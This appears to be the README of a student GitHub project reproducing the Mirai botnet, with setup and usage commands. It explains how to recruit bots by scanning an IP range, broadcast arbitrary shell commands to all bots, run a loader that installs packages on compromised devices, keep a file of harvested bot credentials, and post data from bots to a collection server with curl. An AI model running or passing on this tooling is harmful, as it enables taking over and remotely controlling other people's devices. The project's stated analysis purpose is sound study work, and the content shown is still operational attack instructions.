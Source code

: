 # MiraiBotNet

## prerequisites

 - mongoDB 
 - pip

```bash
# chmod +x init.sh
# ./init.sh
# cd botnet/
# pip install -r requirement.txt  
```
## Usage 

### To get the bots
```bash
# cd botnet/
# ./run.sh <ip> 
  eg:- # ./run.sh 192.168.31.X 
```

### To run the command accross all the bots
```bash
# cd botnet/
# ./command.sh <cmd> 
  eg:- # ./command.sh "ls;ping www.google.com"
```
## Loader

### To add a package:
```bash
# cd loader/getDependencies
```
# add the package name to packages.txt
# Run : 
```bash
# python3 getter.py
```
# dependencies will be added to neededDependencies.txt

### To start loader:
```bash
# cd loader/install
# python3 installer.py &
```
# Logs will be present at logs/loader.log

## Information
### userPassIPFile.txt file contains the IP,Username,Password of the bots. 
 
### to get data from bots
```
curl --header "Content-Type: application/json" --request POST --data '{"ip":"192.168.31.254","data":"this is data entered bla"}' http://192.168.31.32:5000/receiveData
```


PW20RJS01 - Mirai Botnet Analysis
